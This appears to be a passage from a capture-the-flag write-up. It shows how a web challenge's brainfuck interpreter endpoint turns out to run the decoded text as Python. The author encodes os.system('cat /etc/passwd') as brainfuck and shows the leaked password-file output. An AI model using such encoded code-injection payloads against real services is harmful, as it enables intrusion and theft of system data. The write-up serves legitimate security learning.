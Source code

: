 A quick look at the source code of the webpage does reveal an interesting insight on the character of this challenge's creator, but besides a linked javascript file, there is nothing of interest.

The javascript itself is a helper for sending an asynchronous POST request to the backend url `/api/bf`:

```javascript
async function runCode() {
    const programBox = document.querySelector("#code")
    const outBox = document.querySelector("#outputBox")
    outBox.textContent = await (await postData("/api/bf", programBox.value)).text()
}
```

The webpage even offers you to interpret your own code and offers some samples. Trying out the `Hello, World` example indeed returns the result: `Hello, World`.

Typing in a command doesn't return results, also it seems to handle gibberish quite as well. I have not much knowledge about bf, so I simply copy about two thirds of the first example code and try to run that as well. To my surprise, I receive an error:
```text
  File "<string>", line 1
    print("Hello,
                ^
SyntaxError: EOL while scanning string literal
```
That error style looks familiar. Let's look at that bf code a little closer! I use [this](https://copy.sh/brainfuck) to translate the example to something a normal human being enjoys reading and get 
```python
print("Hello, World")
```

Alright, I don't know much about bf, but I have not heard about functions in bf itself, so is this probably just obfuscating another language?

Let's look at the Fibonacci example!
```python
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
```
A `def` keyword, no semicolons and no curly braces? That looks a lot like **python**! We can verify that by again using the aforementioned webpage which also offers a text to bf translator: http://copy.sh/brainfuck/text.html

```python
import os
os.system("cat /etc/passwd")
```
becomes
```brainfuck
+[----->+++<]>++.++++.+++.-.+++.++.[---->+<]>+++.+++++[->+++<]>.++++.>++++++++++.-[------->+<]>.++++.+[++>---<]>.[--->++<]>-.++++++.------.+.+++[->+++<]>.++++++++.+++[++>---<]>.------.-[->+++<]>.--.--[--->+<]>-.[---->+<]>+++.[-->+++<]>-.[--->+<]>.[--->+<]>---.++[->+++<]>+.-[-->+<]>--.+[----->+<]>.[----->++<]>+.--[--->+<]>--..++++.[->+++<]>-.-[--->+<]>+.+++++++.
```
Bingo! We retrieve a result:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```